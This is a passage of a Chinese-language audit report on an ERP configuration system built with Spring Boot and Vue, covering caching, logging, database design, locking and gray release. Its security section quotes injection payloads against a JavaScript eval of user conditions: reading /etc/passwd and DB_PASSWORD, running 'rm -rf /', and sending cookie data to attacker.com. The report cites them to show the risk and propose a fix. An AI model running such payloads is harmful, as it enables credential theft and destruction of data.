

# ERP 配置化方案生产性落地审计报告

> 📅 **审计时间**: 2026-03-22  
> 🎯 **评估对象**: ERP 配置化管理系统完整方案  
> 📦 **适用范围**: RuoYi-WMS + Spring Boot 3.x + Vue 3  
> 🔍 **审计维度**: 完整性、安全性、性能、可维护性  
> ⭐ **综合评分**: 75/100

---

##  执行摘要

### 总体评价

**当前状态**:  具备演示价值， 不具备生产条件

**达到生产标准所需**: 
- 📅 时间：**4-5 周** (按 3 人团队计算)
- 👥 成本：3 人 × 5 周 = **15 人周**
- 💰 ROI: 约 3 个新模块后回本

### 核心发现

| 评估维度 | 得分 | 等级 | 关键问题 |
|---------|------|------|---------|
| **方案完整性** | 82/100 | 良好 | 缺少缓存策略、异常处理、监控日志 |
| **数据库设计** | 70/100 | 中等 | LONGTEXT 滥用、无分区策略、并发控制不足 |
| **生产可行性** | 68/100 | 中等 | 性能瓶颈、灰度机制缺失、批量操作不足 |
| **安全性** | 45/100 |  高危 | JavaScript 注入、SQL 注入、XSS 风险 |
| **版本管理** | 82/100 | 良好 | 基础功能完善，需增强标签和对比 |

---

## 📋 目录

1. [前后端配置化方案的完整性](#1-前后端配置化方案的完整性)
2. [数据库表结构设计的合理性](#2-数据库表结构设计的合理性)
3. [生产环境实施的可行性](#3-生产环境实施的可行性)
4. [安全性考虑](#4-安全性考虑)
5. [版本管理机制](#5-版本管理机制)
6. [其他关键问题](#6-其他关键问题)
7. [行动建议总结](#7-行动建议总结)
8. [实施路线图](#8-实施路线图)

---

## 1. 前后端配置化方案的完整性

###  优点 (85 分)

#### 前端设计亮点

```markdown
 三层页面架构清晰（列表、编辑器、历史版本）
 CodeMirror 集成提供专业编辑体验
 JSON 实时验证和格式化功能完备
 版本对比和回滚机制健全
 组件化设计，复用性强
 用户体验友好（搜索、筛选、分页）
```

#### 后端设计亮点

```markdown
 三层架构设计合理（Controller → Service → Mapper）
 泛型设计提供类型安全
 四大引擎支撑（查询、验证、审批、下推）
 开闭原则和依赖倒置原则应用得当
 事务支持 (@Transactional)
```

---

###  需要改进的问题

####  缺失的关键组件

##### 1. 缓存策略未明确

**问题描述**:

文档提到"Redis 缓存 TTL 1 小时",但未说明以下关键细节:
- 缓存失效触发机制
- 缓存穿透/雪崩解决方案
- 分布式锁的使用场景
- 本地缓存与 Redis 的协同
- 热点配置识别和处理

**影响范围**: 🔴 高 - 直接影响系统性能

**修复建议**:

```java
@Configuration
public class ConfigCacheConfig {
    
    @Bean
    public CacheManager configCacheManager(RedisConnectionFactory factory) {
        // 基础配置
        RedisCacheConfiguration defaultConfig = RedisCacheConfiguration.defaultCacheConfig()
            .entryTtl(Duration.ofHours(1))  // 默认 TTL 1 小时
            .serializeKeysWith(RedisSerializationContext.SerializationPair
                .fromSerializer(new StringRedisSerializer()))
            .serializeValuesWith(RedisSerializationContext.SerializationPair
                .fromSerializer(new GenericJackson2JsonRedisSerializer()));
        
        // 页面配置 - 短 TTL (频繁修改)
        RedisCacheConfiguration pageConfig = defaultConfig.clone()
            .entryTtl(Duration.ofMinutes(5));
        
        // 字典配置 - 长 TTL (相对稳定)
        RedisCacheConfiguration dictConfig = defaultConfig.clone()
            .entryTtl(Duration.ofHours(24));
        
        return RedisCacheManager.builder(factory)
            .cacheDefaults(defaultConfig)
            .withCacheConfiguration("pageConfig", pageConfig)
            .withCacheConfiguration("dictConfig", dictConfig)
            .transactionAware()
            .build();
    }
    
    /**
     * 缓存更新时自动失效
     */
    @CacheEvict(value = {"pageConfig", "dictConfig"}, key = "#moduleCode")
    public void saveConfig(String moduleCode, Object config) {
        // ...
    }
}
```

**补充代码**:

```java
@Service
public class ConfigServiceWithCache {
    
    @Autowired
    private PageConfigMapper configMapper;
    
    /**
     * 带缓存穿透保护的查询
     */
    @Cacheable(value = "pageConfig", key = "#moduleCode", 
               unless = "#result == null")
    public PageConfig getConfigByModuleCode(String moduleCode) {
        // 空值保护 - 防止缓存穿透
        PageConfig config = configMapper.selectByModuleCode(moduleCode);
        
        if (config == null) {
            // 使用空对象填充，避免频繁查库
            return new PageConfig();
        }
        
        return config;
    }
    
    /**
     * 批量查询优化
     */
    public Map<String, PageConfig> batchGetConfigs(List<String> moduleCodes) {
        Map<String, PageConfig> result = new HashMap<>();
        List<String> missingCodes = new ArrayList<>();
        
        // 1. 先查缓存
        for (String code : moduleCodes) {
            PageConfig cached = cacheManager.getCache("pageConfig")
                .get(code, PageConfig.class);
            if (cached != null) {
                result.put(code, cached);
            } else {
                missingCodes.add(code);
            }
        }
        
        // 2. 缓存未命中，批量查库
        if (!missingCodes.isEmpty()) {
            List<PageConfig> dbConfigs = configMapper.selectBatch(missingCodes);
            
            for (PageConfig config : dbConfigs) {
                result.put(config.getModuleCode(), config);
                // 回填缓存
                cacheManager.getCache("pageConfig")
                    .put(config.getModuleCode(), config);
            }
        }
        
        return result;
    }
}
```

---

##### 2. 异常处理机制不完善

**问题描述**:

当前方案缺少完善的异常处理体系:
-  全局异常处理器 (@ControllerAdvice)
-  配置解析异常的专门处理
-  JSON Schema 验证失败的业务异常
-  事务回滚的边界条件不明确
-  缺少统一的错误码规范

**影响范围**: 🔴 高 - 影响系统稳定性和用户体验

**修复建议**:

```java
@RestControllerAdvice
public class ConfigExceptionAdvice {
    
    private static final Logger log = LoggerFactory.getLogger(ConfigExceptionAdvice.class);
    
    /**
     * JSON 解析异常
     */
    @ExceptionHandler(JsonParseException.class)
    public R<Void> handleJsonParseError(JsonParseException e) {
        log.error("配置 JSON 解析失败", e);
        return R.fail("配置格式错误：" + e.getMessage());
    }
    
    /**
     * 配置验证异常
     */
    @ExceptionHandler(ConfigValidationException.class)
    public R<Void> handleValidationError(ConfigValidationException e) {
        log.warn("配置验证失败：{}", e.getErrors());
        return R.fail("配置验证失败：" + String.join(", ", e.getErrors()));
    }
    
    /**
     * 配置不存在
     */
    @ExceptionHandler(ConfigNotFoundException.class)
    public R<Void> handleNotFound(ConfigNotFoundException e) {
        return R.fail(e.getMessage());
    }
    
    /**
     * 权限异常
     */
    @ExceptionHandler(SaNotRoleException.class)
    public R<Void> handlePermissionDenied(SaNotRoleException e) {
        return R.fail("权限不足，无法执行此操作");
    }
    
    /**
     * 通用业务异常
     */
    @ExceptionHandler(BusinessException.class)
    public R<Void> handleBusinessError(BusinessException e) {
        log.error("业务异常", e);
        return R.fail(e.getMessage());
    }
    
    /**
     * 系统异常
     */
    @ExceptionHandler(Exception.class)
    public R<Void> handleSystemError(Exception e) {
        log.error("系统异常", e);
        return R.fail("系统繁忙，请稍后再试");
    }
}

/**
 * 自定义配置验证异常
 */
public class ConfigValidationException extends RuntimeException {
    
    private final List<String> errors;
    
    public ConfigValidationException(List<String> errors) {
        super("配置验证失败");
        this.errors = errors;
    }
    
    public List<String> getErrors() {
        return errors;
    }
}
```

---

##### 3. 日志监控缺失

**问题描述**:

当前方案缺少可观测性设计:
-  配置变更审计日志
-  性能指标监控 (QPS, RT)
-  错误率告警阈值
-  操作追踪 (TraceID)
-  慢查询日志

**影响范围**: 🟡 中 - 影响运维效率和问题排查

**修复建议**:

**新增审计日志表**:

```sql
CREATE TABLE `erp_config_audit_log` (
  `log_id` bigint(20) NOT NULL AUTO_INCREMENT,
  `config_id` bigint(20) NOT NULL COMMENT '配置 ID',
  `module_code` varchar(50) NOT NULL COMMENT '模块编码',
  `operation` varchar(20) NOT NULL COMMENT '操作类型 (VIEW/ADD/EDIT/DELETE/ROLLBACK)',
  `operator_id` varchar(64) NOT NULL COMMENT '操作人 ID',
  `operator_name` varchar(100) COMMENT '操作人姓名',
  `request_ip` varchar(50) COMMENT '请求 IP',
  `execution_time` int(11) COMMENT '执行时间 (ms)',
  `status` char(1) DEFAULT '1' COMMENT '1 成功 0 失败',
  `error_message` text COMMENT '错误信息',
  `trace_id` varchar(64) COMMENT '分布式追踪 ID',
  `change_detail` json COMMENT '变更详情 (旧值/新值)',
  `create_time` datetime DEFAULT CURRENT_TIMESTAMP,
  PRIMARY KEY (`log_id`),
  KEY `idx_config` (`config_id`),
  KEY `idx_operator` (`operator_id`),
  KEY `idx_time` (`create_time`),
  KEY `idx_operation` (`operation`)
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4 COMMENT='配置审计日志表';
```

**审计切面实现**:

```java
@Aspect
@Component
public class ConfigAuditAspect {
    
    @Autowired
    private ConfigAuditLogMapper auditLogMapper;
    
    @Around("@annotation(auditLog)")
    public Object around(ProceedingJoinPoint pjp, AuditLog auditLog) throws Throwable {
        long startTime = System.currentTimeMillis();
        String traceId = UUID.randomUUID().toString().replace("-", "");
        MDC.put("traceId", traceId);
        
        ConfigAuditLog logEntry = new ConfigAuditLog();
        logEntry.setTraceId(traceId);
        logEntry.setOperation(auditLog.operation());
        logEntry.setRequestIp(getRequestIp());
        logEntry.setOperatorId(SaTokenInfo.getUserId());
        logEntry.setOperatorName(SaTokenInfo.getLoginName());
        
        try {
            Object result = pjp.proceed();
            
            logEntry.setStatus("1");
            logEntry.setExecutionTime((int)(System.currentTimeMillis() - startTime));
            
            auditLogMapper.insert(logEntry);
            
            return result;
            
        } catch (Throwable e) {
            logEntry.setStatus("0");
            logEntry.setErrorMessage(e.getMessage());
            logEntry.setExecutionTime((int)(System.currentTimeMillis() - startTime));
            
            auditLogMapper.insert(logEntry);
            
            throw e;
        } finally {
            MDC.clear();
        }
    }
}

// 使用示例
@AuditLog(operation = "EDIT_CONFIG")
public void updateConfig(PageConfig config) {
    // ...
}
```

---

## 2. 数据库表结构设计的合理性

###  优点 (78 分)

```markdown
 核心表设计清晰（5 张表覆盖主要场景）
 唯一索引防止重复（uk_module_type）
 版本号字段支持乐观锁
 触发器自动记录历史（减少人为错误）
 外键关系明确
```

---

###  严重问题

#### 🔴 [阻塞性问题] 表设计缺陷

##### 1. LONGTEXT 字段滥用风险

**问题描述**:

```sql
-- 当前设计
`config_content` LONGTEXT NOT NULL
```

**存在的问题**:

1. ✗ 无法验证 JSON 结构
2. ✗ 查询性能差 (需要全表扫描)
3. ✗ 无法建立有效索引
4. ✗ 大事务风险 (单个配置可能超过 1MB)
5. ✗ 无法进行字段级查询和统计

**影响范围**: 🔴 高 - 影响查询性能和数据完整性

**解决方案**:

**方案 A: 添加结构化字段提取关键信息**

```sql
ALTER TABLE `erp_page_config` 
  ADD COLUMN `search_fields_json` TEXT COMMENT '搜索字段配置 (JSON 数组，便于查询)',
  ADD COLUMN `table_columns_count` INT DEFAULT 0 COMMENT '表格列数',
  ADD COLUMN `form_sections_count` INT DEFAULT 0 COMMENT '表单区块数',
  ADD INDEX `idx_columns_count` (`table_columns_count`);
```

**方案 B: 使用 MySQL 5.7+ JSON 类型 (推荐)**

```sql
ALTER TABLE `erp_page_config` 
  MODIFY `config_content` JSON NOT NULL 
  COMMENT '完整的 JSON 配置内容';

-- 添加虚拟列和索引
ALTER TABLE `erp_page_config`
  ADD COLUMN `has_search` TINYINT(1) GENERATED ALWAYS AS 
    (JSON_EXTRACT(config_content, '$.searchConfig.showSearch')) VIRTUAL,
  ADD COLUMN `table_columns_count` INT GENERATED ALWAYS AS 
    (JSON_LENGTH(JSON_EXTRACT(config_content, '$.tableConfig.columns'))) VIRTUAL,
  ADD INDEX `idx_has_search` (`has_search`),
  ADD INDEX `idx_columns_count` (`table_columns_count`);
```

**方案 C: 分离配置元数据**

```sql
CREATE TABLE `erp_config_metadata` (
  `metadata_id` bigint(20) NOT NULL AUTO_INCREMENT,
  `config_id` bigint(20) NOT NULL,
  `meta_key` varchar(100) NOT NULL COMMENT '元数据键 (如：columnCount)',
  `meta_value` text COMMENT '元数据值',
  PRIMARY KEY (`metadata_id`),
  KEY `idx_config` (`config_id`),
  KEY `idx_key` (`meta_key`)
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;

-- 示例数据
INSERT INTO `erp_config_metadata` (config_id, meta_key, meta_value) VALUES
(1, 'columnCount', '15'),
(1, 'fieldCount', '28'),
(1, 'hasApproval', 'true');
```

---

##### 2. 缺少数据分区策略

**问题描述**:

**数据增长预测**:
- erp_page_config_history 每次修改都新增记录
- 假设每天修改 100 次，6 个月后 = 18,000 条
- 1 年后 = 36,000+ 条
- 查询性能随数据量线性下降

**影响范围**: 🟡 中 - 长期影响查询性能

**解决方案**:

**方案 A: 按月分区 (MySQL 5.7+)**

```sql
ALTER TABLE `erp_page_config_history`
PARTITION BY RANGE (TO_DAYS(create_time)) (
    PARTITION p202601 VALUES LESS THAN (TO_DAYS('2026-02-01')),
    PARTITION p202602 VALUES LESS THAN (TO_DAYS('2026-03-01')),
    PARTITION p202603 VALUES LESS THAN (TO_DAYS('2026-04-01')),
    PARTITION p202604 VALUES LESS THAN (TO_DAYS('2026-05-01')),
    PARTITION p202605 VALUES LESS THAN (TO_DAYS('2026-06-01')),
    PARTITION p202606 VALUES LESS THAN (TO_DAYS('2026-07-01')),
    PARTITION pmax VALUES LESS THAN MAXVALUE
);

-- 定期添加新分区
DELIMITER $$
CREATE PROCEDURE `add_new_partition`(IN partition_date DATE)
BEGIN
    DECLARE partition_name VARCHAR(20);
    SET partition_name = CONCAT('p', DATE_FORMAT(partition_date, '%Y%m'));
    
    SET @sql = CONCAT(
        'ALTER TABLE erp_page_config_history ',
        'ADD PARTITION (',
        'PARTITION ', partition_name, 
        ' VALUES LESS THAN (TO_DAYS(\'', 
        DATE_FORMAT(DATE_ADD(partition_date, INTERVAL 1 MONTH), '%Y-%m-%d\'),
        '\'))'
    );
    
    PREPARE stmt FROM @sql;
    EXECUTE stmt;
    DEALLOCATE PREPARE stmt;
END$$
DELIMITER ;
```

**方案 B: 定期归档策略**

```sql
-- 创建归档表
CREATE TABLE `erp_page_config_history_archive` LIKE `erp_page_config_history`;

-- 归档存储过程
DELIMITER $$
CREATE PROCEDURE `archive_old_history`()
BEGIN
    DECLARE archive_date DATE;
    SET archive_date = DATE_SUB(NOW(), INTERVAL 6 MONTH);
    
    -- 将 6 个月前的数据移到归档表
    INSERT INTO erp_page_config_history_archive 
    SELECT * FROM erp_page_config_history 
    WHERE create_time < archive_date;
    
    -- 删除已归档的数据
    DELETE FROM erp_page_config_history 
    WHERE create_time < archive_date;
    
    -- 记录归档日志
    INSERT INTO archive_log (archive_table, archive_count, archive_date)
    VALUES ('erp_page_config_history', ROW_COUNT(), NOW());
END$$
DELIMITER ;

-- 定时任务 (每月 1 号凌晨 2 点执行)
CREATE EVENT `monthly_archive_job`
ON SCHEDULE EVERY 1 MONTH STARTS '2026-04-01 02:00:00'
DO CALL archive_old_history();
```

---

##### 3. 并发控制不足

**问题描述**:

**当前设计**:
- ✓ 有 version 字段 (乐观锁)
- ✗ 无悲观锁支持
- ✗ 无分布式锁机制
- ✗ 无死锁检测

**高风险场景**:

**场景 1: 多人同时编辑同一配置**
```
用户 A 和用户 B 同时编辑 saleOrder 配置
→ A 在 10:00:00 打开编辑器
→ B 在 10:00:05 打开编辑器
→ A 在 10:05:00 保存成功 (version=2)
→ B 在 10:05:10 保存失败 (version 冲突)
→ B 的修改丢失！
```

**场景 2: 高频配置修改**
```
短时间内 >100 次/分钟的修改请求
→ 乐观锁大量失败
→ 客户端不断重试
→ 数据库压力激增
→ 系统性能下降
```

**影响范围**: 🔴 高 - 数据一致性问题

**解决方案**:

**方案 A: 添加编辑锁机制 (推荐)**

```sql
ALTER TABLE `erp_page_config` 
  ADD COLUMN `locked_by` varchar(64) DEFAULT NULL COMMENT '锁定者 ID',
  ADD COLUMN `lock_time` datetime DEFAULT NULL COMMENT '锁定时间',
  ADD COLUMN `lock_expire` datetime DEFAULT NULL COMMENT '锁过期时间',
  ADD INDEX `idx_lock` (`locked_by`, `lock_expire`);
```

```java
@Service
public class ConfigLockService {
    
    @Autowired
    private PageConfigMapper configMapper;
    
    /**
     * 尝试获取编辑锁
     */
    @Transactional
    public boolean tryLock(Long configId, String userId) {
        PageConfig config = configMapper.selectById(configId);
        if (config == null) {
            throw new ConfigNotFoundException("配置不存在");
        }
        
        // 检查是否已被锁定
        if (config.getLockedBy() != null) {
            if (config.getLockExpire() != null && 
                config.getLockExpire().isAfter(LocalDateTime.now())) {
                // 锁未过期
                if (!userId.equals(config.getLockedBy())) {
                    return false;  // 被其他人锁定
                }
            }
        }
        
        // 获取锁
        config.setLockedBy(userId);
        config.setLockTime(LocalDateTime.now());
        config.setLockExpire(LocalDateTime.now().plusMinutes(30)); // 30 分钟过期
        configMapper.updateById(config);
        
        return true;
    }
    
    /**
     * 释放编辑锁
     */
    @Transactional
    public void releaseLock(Long configId, String userId) {
        PageConfig config = configMapper.selectById(configId);
        if (config != null && userId.equals(config.getLockedBy())) {
            config.setLockedBy(null);
            config.setLockTime(null);
            config.setLockExpire(null);
            configMapper.updateById(config);
        }
    }
    
    /**
     * 检查配置是否可编辑
     */
    public LockStatus checkLockStatus(Long configId, String userId) {
        PageConfig config = configMapper.selectById(configId);
        
        if (config.getLockedBy() == null) {
            return LockStatus.UNLOCKED;
        }
        
        if (config.getLockExpire() == null || 
            config.getLockExpire().isBefore(LocalDateTime.now())) {
            return LockStatus.EXPIRED;  // 锁已过期，可抢占
        }
        
        if (userId.equals(config.getLockedBy())) {
            return LockStatus.SELF_LOCKED;  // 自己持有的锁
        }
        
        return LockStatus.LOCKED_BY_OTHER;  // 被他人锁定
    }
    
    public enum LockStatus {
        UNLOCKED,           // 未锁定
        SELF_LOCKED,        // 自己锁定
        LOCKED_BY_OTHER,    // 被他人锁定
        EXPIRED             // 锁已过期
    }
}
```

**方案 B: Redis 分布式锁**

```java
@Component
public class RedisDistributedLock {
    
    @Autowired
    private RedisTemplate<String, String> redisTemplate;
    
    private static final String LOCK_PREFIX = "config:lock:";
    private static final long DEFAULT_TIMEOUT = 30; // 秒
    
    /**
     * 尝试获取分布式锁
     */
    public boolean tryLock(String resourceId, String requestId, long timeoutSeconds) {
        String lockKey = LOCK_PREFIX + resourceId;
        
        // SETNX + EXPIRE (原子操作)
        Boolean success = redisTemplate.opsForValue()
            .setIfAbsent(lockKey, requestId, timeoutSeconds, TimeUnit.SECONDS);
        
        return Boolean.TRUE.equals(success);
    }
    
    /**
     * 释放分布式锁
     */
    public boolean releaseLock(String resourceId, String requestId) {
        String lockKey = LOCK_PREFIX + resourceId;
        
        // Lua 脚本保证原子性
        String script = 
            "if redis.call('get', KEYS[1]) == ARGV[1] then " +
            "   return redis.call('del', KEYS[1]) " +
            "else " +
            "   return 0 " +
            "end";
        
        RedisScript<Long> redisScript = RedisScript.of(script, Long.class);
        Long result = redisTemplate.execute(redisScript, 
            Collections.singletonList(lockKey), requestId);
        
        return result != null && result > 0;
    }
    
    /**
     * 带重试的锁获取
     */
    public boolean tryLockWithRetry(String resourceId, String requestId, 
                                    int maxRetries, long retryIntervalMs) {
        for (int i = 0; i < maxRetries; i++) {
            if (tryLock(resourceId, requestId, DEFAULT_TIMEOUT)) {
                return true;
            }
            
            try {
                Thread.sleep(retryIntervalMs);
            } catch (InterruptedException e) {
                Thread.currentThread().interrupt();
                return false;
            }
        }
        
        return false;
    }
}
```

---

## 3. 生产环境实施的可行性

###  可行部分 (70 分)

```markdown
 基础 CRUD 功能完整
 版本管理逻辑清晰
 前端用户体验良好
 技术栈成熟稳定
```

---

###  实施风险

#### 🟡 [重要] 性能瓶颈

##### 1. 配置加载性能

**问题场景**:

```
首页加载时需要获取 20+ 个配置
每个配置 JSON 大小约 10-50KB
总数据量 ≈ 20 × 30KB = 600KB
网络传输时间 + 解析时间 > 2 秒
用户体验极差！
```

**影响范围**: 🟡 中 - 影响用户体验

**解决方案**:

**A. 分级加载策略**

```javascript
// 前端 API 改造
export function getConfig(moduleCode, minimal = false) {
  return request({
    url: `/erp/config/${moduleCode}`,
    params: { minimal }  // true=只返回必要字段
  })
}

// 后端接口
@GetMapping("/{moduleCode}")
public R<PageConfig> getConfig(
    @PathVariable String moduleCode,
    @RequestParam(defaultValue = "false") boolean minimal,
    @RequestParam(required = false) List<String> includeSections) {
    
    PageConfig config = configService.getByModuleCode(moduleCode);
    
    if (minimal) {
        // 只返回 apiConfig 和权限配置
        return R.ok(config.minimize());
    }
    
    if (includeSections != null && !includeSections.isEmpty()) {
        // 按需返回指定区块
        return R.ok(config.filterSections(includeSections));
    }
    
    return R.ok(config);
}
```

**B. 批量查询接口**

```java
@RestController
@RequestMapping("/erp/config")
public class ConfigBatchController {
    
    @Autowired
    private ConfigService configService;
    
    /**
     * 批量获取配置
     */
    @PostMapping("/batch")
    public R<Map<String, PageConfig>> batchGetConfigs(
        @RequestBody List<String> moduleCodes) {
        
        if (moduleCodes == null || moduleCodes.isEmpty()) {
            return R.fail("模块编码列表不能为空");
        }
        
        // 限制批量大小
        if (moduleCodes.size() > 50) {
            return R.fail("一次最多查询 50 个配置");
        }
        
        Map<String, PageConfig> configs = configService.batchGetByModuleCodes(moduleCodes);
        return R.ok(configs);
    }
    
    /**
     * 懒加载配置区块
     */
    @GetMapping("/{moduleCode}/section/{sectionName}")
    public R<Object> getConfigSection(
        @PathVariable String moduleCode,
        @PathVariable String sectionName) {
        
        Object section = configService.getConfigSection(moduleCode, sectionName);
        return R.ok(section);
    }
}
```

---

##### 2. 大数据量表格渲染

**问题描述**:

```
配置中定义 50+ 列
数据量超过 1000 条
浏览器需要渲染 50,000+ 个单元格
导致页面卡顿甚至崩溃
```

**影响范围**: 🟡 中 - 影响用户体验

**解决方案**:

**前端虚拟滚动**:

```vue
<template>
  <el-table
    :data="visibleData"
    :height="tableHeight"
    @scroll="handleScroll"
    virtual-scroll
    :row-height="40"
    :buffer-size="10"
  >
    <!-- 列定义 -->
    <el-table-column
      v-for="column in columns"
      :key="column.prop"
      :prop="column.prop"
      :label="column.label"
      :width="column.width"
    />
  </el-table>
</template>

<script setup>
import { ref, computed } from 'vue'

const props = defineProps({
  allData: Array,
  pageSize: { type: Number, default: 100 }
})

const scrollTop = ref(0)
const tableHeight = ref(600)

const visibleData = computed(() => {
  const startIndex = Math.floor(scrollTop.value / 40)
  const visibleCount = Math.ceil(tableHeight.value / 40)
  const buffer = 10
  
  const start = Math.max(0, startIndex - buffer)
  const end = Math.min(props.allData.length, startIndex + visibleCount + buffer)
  
  return props.allData.slice(start, end)
})

function handleScroll(event) {
  scrollTop.value = event.target.scrollTop
}
</script>
```

**后端分页优化**:

```java
@GetMapping("/list")
public TableDataInfo list(@ModelAttribute SearchRequest request) {
    // 设置分页参数
    PageHelper.startPage(request.getPageNum(), request.getPageSize());
    
    // 只查询需要的字段
    List<Map<String, Object>> data = configMapper.selectWithFields(request);
    
    // 异步统计总数 (提升响应速度)
    CompletableFuture<Long> totalFuture = CompletableFuture.supplyAsync(() -> {
        return configMapper.countWithFields(request);
    });
    
    TableDataInfo pageInfo = new TableDataInfo(data);
    
    try {
        pageInfo.setTotal(totalFuture.get(1, TimeUnit.SECONDS));
    } catch (Exception e) {
        log.warn("获取总数超时", e);
    }
    
    return pageInfo;
}
```

---

#### 🟡 [重要] 灰度发布机制缺失

**问题描述**:

**风险场景**:
```
1. 管理员修改了销售订单配置
2. 保存后立即对所有用户生效
3. 发现配置有严重 bug
4. 所有用户都无法正常使用
5. 只能紧急回滚，但已造成影响
```

**影响范围**: 🟡 中 - 影响系统稳定性

**解决方案**:

**A. 配置灰度开关**

```sql
ALTER TABLE `erp_page_config` 
  ADD COLUMN `gray_enabled` char(1) DEFAULT '0' COMMENT '是否启用灰度',
  ADD COLUMN `gray_user_ids` text COMMENT '灰度用户 ID 列表 (JSON 数组)',
  ADD COLUMN `gray_percentage` int(3) DEFAULT 0 COMMENT '灰度百分比 (0-100)',
  ADD COLUMN `publish_status` varchar(20) DEFAULT 'DRAFT' COMMENT '发布状态 (DRAFT/GRAY/FULL)';
```

**B. 灰度发布服务**

```java
@Service
public class ConfigGrayReleaseService {
    
    @Autowired
    private PageConfigMapper configMapper;
    
    @Autowired
    private RedisTemplate<String, String> redisTemplate;
    
    /**
     * 灰度发布配置
     */
    @Transactional
    public void grayRelease(Long configId, GrayReleaseRequest request) {
        PageConfig config = configMapper.selectById(configId);
        
        config.setGrayEnabled("1");
        config.setGrayUserIds(JSON.toJSONString(request.getUserIds()));
        config.setGrayPercentage(request.getPercentage());
        config.setPublishStatus("GRAY");
        
        configMapper.updateById(config);
        
        // 清除缓存
        clearCache(config.getModuleCode());
        
        // 发送通知
        notifyGrayRelease(config, request);
    }
    
    /**
     * 全量发布
     */
    @Transactional
    public void fullRelease(Long configId) {
        PageConfig config = configMapper.selectById(configId);
        
        config.setGrayEnabled("0");
        config.setGrayUserIds(null);
        config.setGrayPercentage(100);
        config.setPublishStatus("FULL");
        
        configMapper.updateById(config);
        
        clearCache(config.getModuleCode());
    }
    
    /**
     * 检查用户是否在灰度范围
     */
    public boolean isInGrayScope(PageConfig config, String userId) {
        // 未启用灰度
        if (!"1".equals(config.getGrayEnabled())) {
            return false;
        }
        
        // 白名单模式
        if (config.getGrayUserIds() != null) {
            List<String> grayUserIds = JSON.parseArray(
                config.getGrayUserIds(), String.class);
            
            if (grayUserIds.contains(userId)) {
                return true;
            }
        }
        
        // 百分比灰度
        if (config.getGrayPercentage() != null && config.getGrayPercentage() > 0) {
            int userHash = Math.abs(userId.hashCode() % 100);
            return userHash < config.getGrayPercentage();
        }
        
        return false;
    }
    
    /**
     * 获取用户可见的配置版本
     */
    public PageConfig getUserVisibleConfig(String moduleCode, String userId) {
        PageConfig config = getByModuleCode(moduleCode);
        
        if (isInGrayScope(config, userId)) {
            // 灰度用户使用新配置
            return config;
        } else {
            // 非灰度用户使用上一个稳定版本
            if ("GRAY".equals(config.getPublishStatus())) {
                return getPreviousStableVersion(moduleCode);
            }
            return config;
        }
    }
}
```

**C. 灰度发布流程**

```markdown
灰度发布标准流程:

1. **准备阶段**
   - 开发环境测试通过
   - 完成代码审查
   - 准备好回滚方案

2. **第一阶段：内部灰度 (5%)**
   - 仅项目组成员可见
   - 观察 1-2 小时
   - 收集反馈

3. **第二阶段：小范围灰度 (20%)**
   - 核心用户可见
   - 观察 4-8 小时
   - 监控错误率

4. **第三阶段：中范围灰度 (50%)**
   - 一半用户可见
   - 观察 12-24 小时
   - 性能对比分析

5. **第四阶段：全量发布 (100%)**
   - 所有用户可见
   - 持续监控 24 小时
   - 确认无异常

6. **回滚机制**
   - 任一阶段发现问题立即回滚
   - 回滚时间目标：< 5 分钟
   - 回滚后分析原因
```

---

## 4. 安全性考虑

###  严重不足 (45 分)

---

### 🔴 [高危] 安全漏洞风险

#### 1. JavaScript 注入攻击

**问题代码** (后端设计方案第 1037-1047 行):

```java
// 使用 JavaScript 引擎执行条件表达式
javax.script.ScriptEngine engine = manager.getEngineByName("JavaScript");
Object evalResult = engine.eval(condition);
```

**风险分析**:

```markdown
✗ 用户可构造恶意条件表达式
✗ 访问 Java 系统属性
✗ 执行任意系统命令
✗ 读取敏感文件
✗ 发起 SSRF 攻击
```

**攻击示例**:

```javascript
// 攻击 1: 读取系统文件
condition = "new java.io.File('/etc/passwd').text"

// 攻击 2: 获取环境变量
condition = "java.lang.System.getenv('DB_PASSWORD')"

// 攻击 3: 执行系统命令
condition = "java.lang.Runtime.getRuntime().exec('rm -rf /')"

// 攻击 4: 发起网络请求
condition = "new java.net.URL('http://attacker.com/steal?data=' + document.cookie).openConnection()"
```

**影响范围**: 🔴 极高 - 可能导致服务器沦陷

**修复方案**:

**方案 A: 使用安全的表达式引擎 (强烈推荐)**

```xml
<!-- 添加 Aviator 依赖 -->
<dependency>
    <groupId>com.googlecode.aviator</groupId>
    <artifactId>aviator</artifactId>
    <version>5.3.0</version>
</dependency>
```

```java
@Service
public class SafeExpressionEvaluator {
    
    /**
     * 安全的表达式求值
     */
    public Object evaluate(String expression, Map<String, Object> context) {
        try {
            // Aviator 默认禁用 Java 方法调用，安全性高
            Object result = AviatorEvaluator.execute(expression, context);
            return result;
        } catch (Exception e) {
